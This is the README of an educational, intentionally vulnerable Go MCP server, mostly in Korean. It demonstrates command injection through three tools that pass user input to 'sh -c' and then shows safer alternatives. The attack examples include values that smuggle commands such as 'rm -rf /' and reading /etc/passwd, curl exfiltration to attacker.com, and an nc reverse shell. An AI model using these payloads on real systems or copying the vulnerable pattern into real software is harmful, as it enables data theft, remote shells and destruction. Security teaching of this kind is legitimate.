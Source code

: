 # Vulnerable MCP Server - Command Injection 예제 (Go)

## ⚠️ CRITICAL SECURITY WARNING ⚠️

**🚨 THIS SOFTWARE IS INTENTIONALLY VULNERABLE AND FOR EDUCATIONAL PURPOSES ONLY 🚨**

- ❌ **DO NOT USE IN PRODUCTION ENVIRONMENTS**
- ❌ **DO NOT USE ON SYSTEMS WITH REAL DATA**
- ❌ **DO NOT USE ON SYSTEMS ACCESSIBLE TO UNTRUSTED USERS**
- ✅ **USE ONLY IN ISOLATED, CONTROLLED ENVIRONMENTS**
- ✅ **USE ONLY FOR EDUCATIONAL AND TESTING PURPOSES**

**This software contains intentional Command Injection vulnerabilities for security education.**

## 개요

이 프로젝트는 Command Injection 취약점을 보여주는 교육용 MCP (Model Context Protocol) 서버입니다. 보안 취약점의 위험성을 이해하고 안전한 코딩 방법을 학습하기 위한 목적으로 제작되었습니다.

## 포함된 취약점

### 1. search_files 함수
```go
// 위험한 코드: 사용자 입력을 직접 shell 명령어에 삽입
command := fmt.Sprintf("find ./sandbox -name '%s' 2>/dev/null", filename)
cmd := exec.CommandContext(ctx, "sh", "-c", command)
output, err := cmd.CombinedOutput()
```

**취약점**: 사용자 입력이 직접 shell 명령어에 삽입됩니다.

**공격 예시**:
```
filename = "test.txt; rm -rf /"
filename = "test.txt && cat /etc/passwd"
filename = "test.txt | nc attacker.com 4444"
```

### 2. list_directory 함수
```go
// 위험한 코드: 사용자 입력을 직접 shell 명령어에 삽입
command := fmt.Sprintf("ls -la '%s' 2>/dev/null", path)
cmd := exec.CommandContext(ctx, "sh", "-c", command)
output, err := cmd.CombinedOutput()
```

**취약점**: 경로 입력이 직접 shell 명령어에 삽입됩니다.

**공격 예시**:
```
path = "/tmp; cat /etc/passwd"
path = "/tmp && whoami"
path = "/tmp | curl -X POST http://attacker.com/data -d @/etc/passwd"
```

### 3. execute_command 함수
```go
// 매우 위험한 코드: 사용자 입력을 그대로 shell에서 실행
cmd := exec.CommandContext(ctx, "sh", "-c", command)
output, err := cmd.CombinedOutput()
```

**취약점**: 사용자 입력을 그대로 shell에서 실행합니다. 가장 위험한 취약점입니다.

**공격 예시**:
```
command = "rm -rf /"
command = "curl -X POST http://attacker.com -d @/etc/passwd"
command = "nc -e /bin/bash attacker.com 4444"
```

## 실행 방법

1. Go 1.19 이상이 설치되어 있는지 확인하세요.

2. 의존성 설치:
```bash
go mod tidy
```

3. 서버 실행:
```bash
go run vulnerable_mcp_server.go
```

또는 바이너리로 빌드:
```bash
go build -o vulnerable_mcp_server vulnerable_mcp_server.go
./vulnerable_mcp_server
```

4. JSON-RPC 요청으로 도구 호출:
```json
{
  "jsonrpc": "2.0",
  "id": 1,
  "method": "tools/call",
  "params": {
    "name": "search_files",
    "arguments": {
      "filename": "test.txt"
    }
  }
}
```

## 안전한 대안

### 1. exec.Command에서 직접 인수 전달
```go
// 안전한 방법
cmd := exec.CommandContext(ctx, "find", "./sandbox", "-name", filename)
output, err := cmd.CombinedOutput()
```

### 2. 입력 검증 및 이스케이프
```go
import (
    "regexp"
    "fmt"
)

func validateFilename(filename string) error {
    // 파일명 검증
    matched, err := regexp.MatchString("^[a-zA-Z0-9._-]+$", filename)
    if err != nil || !matched {
        return fmt.Errorf("invalid filename")
    }
    return nil
}

// 사용 예시
func safeSearchFiles(filename string) (string, error) {
    if err := validateFilename(filename); err != nil {
        return "", err
    }
    
    // 안전한 명령어 실행
    cmd := exec.Command("find", "./sandbox", "-name", filename)
    output, err := cmd.CombinedOutput()
    return string(output), err
}
```

### 3. 허용된 명령어만 실행
```go
var allowedCommands = map[string]bool{
    "ls":   true,
    "find": true,
    "grep": true,
}

func executeSafeCommand(commandName string, args ...string) (string, error) {
    if !allowedCommands[commandName] {
        return "", fmt.Errorf("command not allowed: %s", commandName)
    }
    
    cmd := exec.Command(commandName, args...)
    output, err := cmd.CombinedOutput()
    return string(output), err
}
```

## 보안 모범 사례

1. **입력 검증**: 모든 사용자 입력을 검증하고 정제합니다.
2. **최소 권한 원칙**: 필요한 최소한의 권한만 부여합니다.
3. **화이트리스트**: 허용된 명령어나 패턴만 사용합니다.
4. **이스케이프**: 특수 문자를 적절히 이스케이프합니다.
5. **로그 기록**: 모든 명령어 실행을 로그에 기록합니다.

## 법적 고지

이 코드는 교육 목적으로만 제공됩니다. 악의적인 목적으로 사용하는 것은 불법이며, 저자는 그에 대한 책임을 지지 않습니다. 실제 시스템에서 테스트할 때는 격리된 환경에서만 수행하세요.

## 추가 학습 자료

- [OWASP Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [Go os/exec 보안 가이드](https://pkg.go.dev/os/exec#hdr-Security_considerations)
- [MCP 공식 문서](https://modelcontextprotocol.io/)